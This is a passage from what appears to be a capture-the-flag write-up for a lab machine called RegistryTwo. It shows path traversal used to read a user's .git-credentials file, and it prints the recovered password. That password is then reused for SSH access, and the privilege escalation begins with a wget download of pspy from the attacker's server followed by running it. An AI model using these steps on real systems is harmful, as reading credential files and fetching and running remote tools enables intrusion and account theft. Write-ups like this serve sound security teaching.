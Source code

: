 After seeing this I used my second function to open the contents of the **../../home/developer/.git-credentials**. Here we could see some credentials for github account named `irogir`.

![Git credentials disclosed](/assets/img/RegistryTwo/RegistryTwo_31.png)

```
https://irogir:qybWiMTRg0sIHz4beSTUzrVIl7t3YsCj9@github.com
```

The `irogir` user didn't exist on the machine, but when I tried this password with the `developer` user, it did work and gave us access to the machine using SSH.

```
ssh developer@webhosting.htb
qybWiMTRg0sIHz4beSTUzrVIl7t3YsCj9
```

![Access as developer](/assets/img/RegistryTwo/RegistryTwo_32.png)

## Privilege escalation

### Initial Recon

One of the steps I always perform when landing on a linux machine is running pspy on the machine. This tool can give insight on what processes are being ran on the machine. First we download it from our server and run it.


```bash
wget http://10.10.16.86/pspy64
chmod +x pspy64
./pspy64
```
